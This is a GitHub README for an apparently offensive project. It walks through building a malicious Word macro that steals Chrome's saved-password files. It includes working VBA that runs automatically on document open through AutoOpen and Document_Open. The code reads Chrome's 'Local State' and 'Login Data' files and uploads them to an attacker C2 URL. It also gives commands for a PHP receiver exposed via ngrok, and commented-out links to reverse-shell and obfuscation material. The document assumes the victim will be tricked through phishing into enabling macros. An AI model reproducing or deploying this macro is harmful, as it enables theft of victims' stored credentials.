 # The word is yours





<div align=center>
<img src=https://github.com/ariary/WordTrojan/blob/main/img/logo.png width=180>
<br><strong><i>Malicious macro for the dummies<sup>*</sup></i></strong>
<br><sup>* In fact it is for me</sup> 

  🔫 <strong>•</strong> 🥷 <strong>•</strong> 🫖
</div> 


## Context

It is well-known that macro is a great vector of attack to execute malicious code on victim device. The approach is basically to make the victim open an MS document which will run code using Macro.

Macro are written in VBA which is a precompiled language (⇒ easy to reverse.. argh).

We suppose the victim is using Windows.

### What we want to do?

To discover a bit the macro world. Our aim is to steal credentials stored in the Chrome password manager. The scenario is the following:
* Transfer malicious word document to victim *(out-of-scope: use social-engineering,phishing, ..)*
* Encourage them to open it + enable macro
  * The macro will retrieve the files containing credentials, then send them to C2 server
* On C2 server we will decrypt the credentials

## 🔫 Naive approach

- [Retrieve sensitive files and send it from word](#retrieve-sensitive-files-and-send-it-from-word)
- [Receive files on Attacker side](#receive-files-on-attacker-side)
- [Let's Contemplate the explosion](#lets-contemplate-the-explosion)
- [Caveat](#caveat)

> 💡 **Create Macro**: in your word document *View* > Macros > view macros > Edit

### Retrieve sensitive files and send it from word

The macro payload reads the differents files containing Chrome passwords and send them to C2 server. Translate it in VBA:
```VBA
Private Function pvPostFile(sUrl As String, sFileName As String, Optional ByVal bAsync As Boolean) As String
    Const STR_BOUNDARY  As String = "3fbd04f5-b1ed-4060-99b9-fca7ff59c113"
    Dim nFile           As Integer
    Dim baBuffer()      As Byte
    Dim sPostData       As String
 
    '--- read file
    nFile = FreeFile
    Open sFileName For Binary Access Read As nFile
    If LOF(nFile) > 0 Then
        ReDim baBuffer(0 To LOF(nFile) - 1) As Byte
        Get nFile, , baBuffer
        sPostData = StrConv(baBuffer, vbUnicode)
    End If
    Close nFile
    '--- prepare body
    sPostData = "--" & STR_BOUNDARY & vbCrLf & _
        "Content-Disposition: form-data; name=""uploadfile""; filename=""" & Mid$(sFileName, InStrRev(sFileName, "\") + 1) & """" & vbCrLf & _
        "Content-Type: application/octet-stream" & vbCrLf & vbCrLf & _
        sPostData & vbCrLf & _
        "--" & STR_BOUNDARY & "--"
    '--- post
    With CreateObject("Microsoft.XMLHTTP")
        .Open "POST", sUrl, bAsync
        .SetRequestHeader "Content-Type", "multipart/form-data; boundary=" & STR_BOUNDARY
        .Send pvToByteArray(sPostData)
        If Not bAsync Then
            pvPostFile = .ResponseText
        End If
    End With
End Function
 
Private Function pvToByteArray(sText As String) As Byte()
    pvToByteArray = StrConv(sText, vbFromUnicode)
End Function
```
(from [wqweto](https://wqweto.wordpress.com/2011/07/12/vb6-using-wininet-to-post-binary-file/))

Now call this function to send the files we want:
```VBA
Private Sub Malware()
    pvPostFile "https://[ATTACKER_URL]/upload.php?id=[TARGET_ID]", "C:\Users\" & Environ("username") & "\AppData\Local\Google\Chrome\User Data\Local State"
    pvPostFile "https://[ATTACKER_URL]/upload.php?id=[TARGET_ID]", "C:\Users\" & Environ("username") & "\AppData\Local\Google\Chrome\User Data\Default\Login Data"
End Sub

Private Sub Launch()
    Malware
End Sub

Sub AutoOpen()
    ' Becomes launched as first on MS Word
    Launch
End Sub

Sub Document_Open()
    ' Becomes launched as second, another try, on MS Word
    Launch
End Sub
```
`Document_Open` and `AutoOpen` are special functions which are automatically executed when the word document is open.

### Receive files on Attacker side

[`php/upload.php`](https://github.com/ariary/TheWordIsYours/blob/main/php/upload.php) is the php file in charge of receiving uploaded file (with `multipart/form-data`).

Launch the server (from here) and expose it (with `ngrok`, for test purpose only):
```shell
php -S localhost:8080 -t php

#On another tab
ngrok http 8080
```
Let's copy your ngrok https endpoint and replace `[ATTACKER_URL]` in the macro

### Let's Contemplate the explosion

Now open the word document (on a windows machine please) and **bang**, see that it has discreetly exfiltrated the documents on your attacking machine.

Now that we have what we want, proceed to password decryption on attacker machine (which is the coolest part)

*.. to do*

### Caveat

* Our macro payload lets a lot of information through that will allow a blue team to trace you easily as well as defend themselves
* Target must enable macros to trigger the payload *(sometimes it is by default sometimes not, don't ask me)*

## 🥷 On the road to stealth
*.. to do*

<!--Example of revershell macro in word document

See https://vunnm.files.wordpress.com/2018/09/article_macro_reverse_shell.pdf

And https://www.thedecentshub.tech/2021/08/reverse-shell-from-word-documents.html

Obfuscation: https://connect.ed-diamond.com/MISC/misc-087/automatisation-d-une-obfuscation-de-code-vba-avec-vbad

For macro useful tool: https://github.com/CaledoniaProject/awesome-opensource-security/blob/master/office-tools.md
1. Create macro (reverseshell + social engineering)
2. Force victime to click on enable content
3. Get reverse shell

Faire aussi un payload qui récupère les mdp enregistrés par chrome ou Firefox -->
